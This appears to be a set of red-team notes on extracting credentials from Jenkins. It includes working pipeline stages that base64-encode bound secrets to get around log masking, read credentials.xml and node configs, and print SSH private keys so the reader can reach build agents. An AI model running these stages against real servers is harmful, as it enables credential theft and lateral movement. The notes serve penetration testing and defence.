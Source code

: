 # Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output
<img src="buildlog-password1.png">

## Credentials Dumping from pipeline

- We can store various kinds of credentials in Jenkins ( username:password, AWS credential, secret file, secret text, Github credentials, certificate )
- The withCredentials() function can pass the credential id for the required secret and that credential will be available as an environment variable.
- If there are some global credentials or credentials for the current project scope we can dump them. 
- It is important to know the name of the parameter, and if you have guessed correctly we can get the parameter id from here ( http://host:ip/credentials/ )
- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )

- Dumping Username:Password
``` Groovy
stage('Credential Dumping') {
            steps {
                 withCredentials(
                    [usernameColonPassword(credentialsId: '3b258e73-5e16-4338-883e-7a24927aefe1', variable: 'USERPASS')]
                ) {
                    sh '''
                        echo "$USERPASS" | base64
                    '''
                }
            }
        }
```
- Dumping AWS Keys ( References : https://stackoverflow.com/questions/53859575/jenkinsfile-access-aws-credentials )
```
        stage('Credential Dumping') {
            steps {
                 withCredentials([[$class: 'AmazonWebServicesCredentialsBinding',credentialsId: "8ada641e-429c-4547-9921-a1581dbf86ef",accessKeyVariable: 'AWS_ACCESS_KEY_ID',secretKeyVariable: 'AWS_SECRET_ACCESS_KEY'
]]) {
                    sh '''
                        echo "$AWS_ACCESS_KEY_ID" | base64
                    '''
                }
            }
        }
```        

### Credential ID Dumping

- Imagine we don't have access to  ```http://host:ip/credentials/``` to list the credentials id
- We can either look through the code repository hunting for these id or we need a piece of luck we can use Built-In executor
- When ```# of exectors``` in ```Configure System``` is set to non-zero, we can run builds on the controller, which means we have access to the controllers file system.
- Reference - 
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
```

### Credentials & Configuration Dumping Build Agents Information

- This will be somewhat a borderline between credential dumping and lateral movement/backdooring.
- If the Jenkins Controller use SSH to 
- If somefields are not entered during configuration, then they might throw error ( as I have not used paraphrase , trying to dump paraphrase would throw error )
- So we need luck here again as configuration files are stored in controller. 
- Step 1 : Dump the ssh identifiers
- Step 2 : Dump the ssh keys
- Step 3 : Dump the nodes configuration ( note : the path to the Worker-Node is found through traversing the nodes under $JENKINS_HOME/nodes)
- Step 4 : Use the user-name, and hostname and ssh-key to login to the build agent
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
        
    stage('Host Information Dumping') {
            steps {      
                  sh '''
                    cat /var/lib/jenkins/nodes/Worker-Node/config.xml
                  '''   
            }
    }
        
    stage('Dumping sshUserPrivateKey') {
        steps {
            script {
                withCredentials([sshUserPrivateKey(
                    credentialsId: 'dd0f4c9e-01dc-47c3-a0cd-3fff32e2a6cd',
                    keyFileVariable: 'keyFile',
                    passphraseVariable: 'passphrase',
                    usernameVariable: 'username')
                ]){
                    print 'keyFile=' + keyFile
                    print 'username=' + username
                    print 'keyFile.collect { it }=' + keyFile.collect { it }
            
                    print 'username.collect { it }=' + username.collect { it }
                    print 'keyFileContent=' + readFile(keyFile)
                }
            }
        }
    }
```

## Credentials Dumping from Script Console

## References
- https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials 
- https://www.jenkins.io/blog/2019/02/21/credentials-masking/
